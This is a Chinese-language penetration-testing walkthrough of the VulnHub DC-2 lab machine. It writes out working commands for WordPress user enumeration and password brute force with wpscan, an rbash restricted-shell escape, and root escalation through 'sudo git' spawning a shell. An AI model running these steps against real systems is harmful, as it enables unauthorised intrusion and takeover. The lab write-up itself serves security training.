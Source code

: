 [DC-2介绍](https://www.vulnhub.com/entry/dc-2,311/)

![image-20230722191231827](./imgs/image-20230722191231827.png)

> 请注意，您需要将渗透测试设备上的 hosts 文件设置为：
>  192.168.0.145 dc-2
>  显然，将 192.168.0.145 替换为 DC-2 的实际 IP 地址。
>  它将使生活变得更加简单（如果没有它，某些 CMS 可能无法工作）。

#### 信息收集

```
靶机MAC地址：00:0C:29:40:DF:ED
攻击机和靶机的网卡，设置为 NAT 模式
```

```shell
nmap -sS -O 192.168.80.0/24  # 扫描网段，找寻靶机的 IP
```

![image-20230722165211546](./imgs/image-20230722165211546.png)

修改hosts配置 文件

![image-20230722171921831](./imgs/image-20230722171921831.png)

对靶机进行全面扫描,发现靶机开了80端口

```shell
nmap -A -T4 -p- 192.168.80.135
```

![image-20230722172116554](./imgs/image-20230722172116554.png)

由于在kali的hosts文件里配置了映射关系，所以只能在kali里访问到，

在windows真实机器里访问不到。

```Python
# hosts文件路径
Windows：C:\Windows\System32\drivers\etc\hosts
Linux：/etc/hosts
```



靶机的 http 站点的 CMS 为 **WordPress** ，使用 `http://192.168.80.135` 尝试进行访问。

![image-20230722172339871](./imgs/image-20230722172339871.png)

成功访问到靶机的 http 站点，根据首页内容，再次确认这是一个 **WordPress** 站点。

#### 漏洞发现

1、尝试点击首页的 `Flag` 选项，成功找到了第一个 flag。

![image-20230722173054125](./imgs/image-20230722173054125.png)

![image-20230722191958080](./imgs/image-20230722191958080.png)

2、根据 flag1 的内容，使用 `cewl http://dc-2/ -w password.txt` 制作密码字典。

![image-20230722192122091](./imgs/image-20230722192122091.png)

![image-20230722192135535](./imgs/image-20230722192135535.png)

3、因为 flag1 中提到需要登录，但是网页中找不到相关的登录界面入口，所以使用 `dirsearch -u http://dc-2/` 爆破网站目录，寻找登录界面。

![image-20230722192350494](./imgs/image-20230722192350494.png)

4、使用 `http://dc-2/wp-login.php` 进行访问。

![image-20230722192458591](./imgs/image-20230722192458591.png)

5、访问成功后，由于目前只有密码字典，所以还需要使用 `wpscan --url http://dc-2/ -e u` 枚举 **WordPress** 站点中注册过的用户名，来制作用户名字典。

![image-20230722192626521](./imgs/image-20230722192626521.png)

![image-20230722192654604](./imgs/image-20230722192654604.png)

6、成功枚举出三个用户名，将这三个用户名写入到一个文件中，作为用户名字典。

![image-20230722192739207](./imgs/image-20230722192739207.png)

7、使用 `wpscan --url http://dc-2/ -U user.txt -P password.txt` 调用相关的字典文件对网站进行爆破。

![image-20230722192840915](./imgs/image-20230722192840915.png)

![image-20230722192949555](./imgs/image-20230722192949555.png)

8、成功爆破出两个用户，尝试使用 jerry的账号密码 进行登录。

![image-20230722193054089](./imgs/image-20230722193054089.png)

9、登录成功后，把每个选项都点击一遍试试效果，在 `Pages -> All Pages` 下发现了 flag2。

![image-20230722193137772](./imgs/image-20230722193137772.png)

10、也可以使用`nikto`来进行扫描

![image-20230722194156832](./imgs/image-20230722194156832.png)

![image-20230722194245628](./imgs/image-20230722194245628.png)

#### 漏洞利用

==getshell==

1、在信息收集阶段中发现还 开启了 ssh 服务，并且当前我们知道两对用户名和密码，所以分别使用 `ssh jerry/tom@192.168.237.162 -p 7744` 尝试登录。

![image-20230722193258659](./imgs/image-20230722193258659.png)

2、使用tom用户成功登录

![image-20230722193551058](./imgs/image-20230722193551058.png)

3、使用`whoami`查看权限，发现当前为 rbash，被限制的 Shell，所以可以考虑进行==rbash 绕过==。

![image-20230722193617627](./imgs/image-20230722193617627.png)

4、使用 `ls -al` 浏览一下当前目录，发现了 `flag3.txt`

![image-20230722193733499](./imgs/image-20230722193733499.png)

5、使用 `cat flag3.txt` 进行查看，发现无法使用该命令，所以尝试使用 `vim` 或 `vi` 进行查看。  使用`vi`查看成功

![image-20230722194557906](./imgs/image-20230722194557906.png)

6、观察 flag3 中的内容，发现文本中包含 `Jerry` 和 `su` ，所以猜测需要使用 `su jerry` 登录到 jerry 用户下，尝试后发现 `su` 命令无法使用，所以下一步尝试进行 rbash 绕过。

![image-20230722195030367](./imgs/image-20230722195030367.png)

7、使用 `export -p` 发现可以使用 `export` 命令，所以使用以下命令进行 rbash 绕过：

```
BASH_CMDS[a]=/bin/sh;a       #注：把 /bin/sh 给a变量并调用
export PATH=$PATH:/bin/      #注：将 /bin 作为PATH环境变量导出
export PATH=$PATH:/usr/bin   #注：将 /usr/bin 作为PATH环境变量导出
```

![image-20230722195223068](./imgs/image-20230722195223068.png)

8、绕过成功，使用 `su jerry` 和之前爆破出的密码尝试进行登录

![image-20230722195327618](./imgs/image-20230722195327618.png)

9、登录成功，使用 `cd /home/jerry/` 访问家目录，发现了 `flag4.txt` 。

![image-20230722195533715](./imgs/image-20230722195533715.png)

10、根据 flag4 的内容，可以推断下一步需要进行==提权==，来获取 root 权限，访问 /root 目录。

11、寻找root用户拥有的文件，并将错误写入/dev/nul

![image-20230722195926533](./imgs/image-20230722195926533.png)

11、看到拥有`root`权限，所以使用 `sudo -l` 查看当前用户可以以 root 身份执行哪些命令

![image-20230722195654697](./imgs/image-20230722195654697.png)

12、发现可以以 root 身份执行 `git` 命令，所以下一步使用 `git` 进行提权，使用 `sudo git help config ` 使 `git` 被动调用 `more` 进行显示。

```
查看提权命令网站：https://gtfobins.github.io

Git相关：https://gtfobins.github.io/gtfobins/git/
```

![image-20230722200243985](./imgs/image-20230722200243985.png)

![image-20230722200427740](./imgs/image-20230722200427740.png)

13、输入 `!/bin/bash` 即可提权成功。变成`root`用户

![image-20230722200511698](./imgs/image-20230722200511698.png)

14、使用 `cd /root/` 访问 /root 目录，找到了 `final-flag.txt` 。

![image-20230722200650079](./imgs/image-20230722200650079.png)



**总结**

```
修改 hosts 文件来访问网站
使用 nmap 找寻并扫描靶机。
使用 cewl 制作密码字典。
使用 dirsearch 爆破网站目录。
使用 wpscan 对 WordPress 站点进行扫描和爆破。
rbash 绕过
sudo 提权
git 提权

```

